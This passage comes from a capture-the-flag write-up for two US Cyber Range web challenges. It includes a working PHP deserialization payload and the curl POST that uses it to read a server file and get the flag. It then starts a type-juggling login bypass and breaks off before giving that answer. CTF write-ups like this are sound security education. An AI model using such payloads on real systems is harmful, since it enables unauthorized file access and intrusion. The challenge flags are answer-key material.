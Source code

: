 We set the `filename` variable we saw in `secret_cereal_archive` and the location inside the comment. Basically we are redirecting `cereal_name` to `__tostring` inside `secret_cereal_archive`. Our serialized string:
```
O:6:"cereal":3:{s:11:"cereal_name";O:21:"secret_cereal_archive":1:{s:8:"filename";s:27:"/var/www/secret_archive.txt";}s:13:"cereal_flavor";s:6:"FLAVOR";s:12:"cereal_brand";s:5:"BRAND";}
```

Lets see if we get the flag:
```
┌──(kali㉿kali)-[~]
└─$ curl -X POST 'https://cerealize.challenges.virginiacyberrange.net/cerealize.php' -F 'cereal="O:6:\"cereal\":3:{s:11:\"cereal_name\";O:21:\"secret_cereal_archive\":1:{s:8:\"filename\";s:27:\"/var/www/secret_archive.txt\";}s:13:\"cereal_flavor\";s:6:\"FLAVOR\";s:12:\"cereal_brand\";s:5:\"BRAND\";}"'
...

Thanks for submitting a new cereal for our archive!You told us aboutflag{d0nt_d3s3r1l1z3_us3r_1nput}
; we'll see if it's in our archive! If not, we'll add it.
</html>
```

And we got the flag:
Answer:
```
flag{d0nt_d3s3r1l1z3_us3r_1nput}
```

## Juggling Fan Club - 20pts
> I made a website dedicated to my favorite activity, juggling! I’m sure it’s super secure, but just to make sure, can you try to hack your way in and gain administrative access?
> 
> Flag is of the form "flag{}" <br>
> Created by US Cyber Range
> 
> http://juliet.virginiacyberrange.net/

Looking into the site, I found this comment on `/guide.html`:
```html
<!--
I'll add more content later. If you want to add to the guide, you already know where the admin page is. I didn't link to it anywhere, so it should be impossible for hackers to ever discover it, right?
-->
```

Looks like another apache project, lets try `/admin.php`:

![admin.php](https://i.imgur.com/omfZg7M.png)

We were correct. Looking into the page source we find another comment:
```html
<!--
I just hard-coded the creds and I'm comparing strings for now until I can figure out this whole SQL thing.
Don't worry, the password is really complicated. Nobody's going to guess it.
-->
```

So its pretty clear that we'll need to do some type juggling on a lose comparison in the php file. 
Answer:
```
```
